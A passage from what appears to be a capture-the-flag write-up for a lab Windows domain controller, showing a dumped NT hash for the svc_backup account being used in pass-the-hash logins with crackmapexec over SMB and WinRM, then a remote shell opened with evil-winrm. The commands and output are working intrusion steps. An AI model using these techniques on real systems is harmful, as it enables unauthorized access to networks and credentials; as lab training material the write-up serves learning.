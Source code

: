 ```
                password None
                                                          
== LogonSession ==                                  
authentication_id 365835 (5950b)
session_id 2
username UMFD-2
domainname Font Driver Host
logon_server                                        
logon_time 2020-02-23T17:59:38.218491+00:00                                                                                                                                                                                                
sid S-1-5-96-0-2
...[snip]...

```

There are 23 different logon sessions in the data (only the first 1.5 shown above). The first one has the most useful bit of information, the NT hash for svc\_backup.

### Shell over WinRM

#### crackmapexec

The hash definitely works for SMB:

```

root@kali# crackmapexec smb 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup 9658d1d1dcd9250115e2205d9f48400d  

```

When I checked for WinRM, `Pwn3d!` as well:

```

root@kali# crackmapexec winrm 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
WINRM       10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
WINRM       10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)

```

#### Evil-WinRM

[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) provides a shell:

```

root@kali# evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents> 

```
